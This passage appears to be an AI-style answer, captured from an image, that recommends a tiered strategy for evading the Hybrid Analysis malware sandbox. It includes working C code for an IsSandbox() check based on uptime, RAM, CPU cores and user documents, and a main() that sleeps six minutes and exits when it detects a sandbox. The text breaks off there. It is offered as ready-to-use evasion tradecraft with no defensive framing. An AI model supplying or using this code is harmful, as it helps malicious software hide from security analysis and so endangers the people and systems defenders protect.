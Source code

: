 
**Recommended Hybrid Analysis Evasion Strategy:**

**Tier 1 - Time Delay (Essential):**
```c
// Sleep 6+ minutes to exceed analysis window
Sleep(360000);
```

**Tier 2 - Environmental Checks (Medium Priority):**
```c
// Verify domain-joined status
// Check RAM > 8GB
// Check CPU cores > 4
// Verify recent file system activity
```

**Tier 3 - VM Detection (Optional, Noisy):**
```c
// Check for VMware/VirtualBox artifacts (registry, processes)
// RDTSC timing checks
```

**Tier 4 - Hybrid Analysis Specific (Low Priority, Requires Updates):**
```c
// Check for known sandbox usernames/paths
// Verify internet connectivity patterns
```

**Combined Evasion Code Example:**
```c
BOOL IsSandbox() {
    // Check 1: System uptime (sandboxes have low uptime)
    if(GetTickCount64() < 600000) return TRUE; // < 10 minutes uptime

    // Check 2: RAM (sandboxes typically 2-4GB)
    MEMORYSTATUSEX memInfo;
    memInfo.dwLength = sizeof(MEMORYSTATUSEX);
    GlobalMemoryStatusEx(&memInfo);
    if(memInfo.ullTotalPhys < 6442450944) return TRUE; // < 6GB

    // Check 3: CPU cores
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);
    if(sysInfo.dwNumberOfProcessors < 3) return TRUE; // < 3 cores

    // Check 4: Recent file activity
    WIN32_FIND_DATA findData;
    HANDLE hFind = FindFirstFile("C:\\Users\\*\\Documents\\*.doc*", &findData);
    int docCount = 0;
    while(FindNextFile(hFind, &findData) && docCount < 5) {
        docCount++;
    }
    if(docCount < 3) return TRUE; // Minimal user files

    return FALSE; // Likely not sandbox
}

int main() {
    // Extended sleep
    Sleep(360000); // 6 minutes

    // Environmental checks
    if(IsSandbox()) {
        // Execute benign behavior
        ExitProcess(0);
    }

```